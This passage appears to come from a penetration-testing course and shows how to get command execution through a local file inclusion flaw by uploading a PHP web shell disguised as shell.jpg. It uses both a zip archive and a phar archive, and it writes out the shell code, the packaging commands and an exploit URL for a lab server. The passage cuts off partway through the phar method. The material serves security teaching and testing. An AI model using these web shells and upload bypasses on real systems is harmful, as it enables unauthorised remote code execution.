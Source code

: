 We can utilize theÂ [zip](https://www.php.net/manual/en/wrappers.compression.php)Â wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (namedÂ `shell.jpg`), as follows:

```shell-session
smoothment@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Note:**Â Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload theÂ `shell.jpg`Â archive, we can include it with theÂ `zip`Â wrapper as (`zip://shell.jpg`), and then refer to any files within it withÂ `#shell.php`Â (URL encoded). Finally, we can execute commands as we always do withÂ `&cmd=id`, as follows:

Â Â Â 
```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

As we can see, this method also works in executing commands through zipped PHP scripts.

**Note:**Â We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.

---

## Phar Upload

Finally, we can use theÂ `phar://`Â wrapper to achieve a similar result. To do so, we will first write the following PHP script into aÂ `shell.php`Â file:


```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into aÂ `phar`Â file that when called would write a web shell to aÂ `shell.txt`Â sub-file, which we can interact with. We can compile it into aÂ `phar`Â file and rename it toÂ `shell.jpg`Â as follows:

```shell-session
smoothment@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file calledÂ `shell.jpg`. Once we upload it to the web application, we can simply call it withÂ `phar://`Â and provide its URL path, and then specify the phar sub-file withÂ `/shell.txt`Â (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:
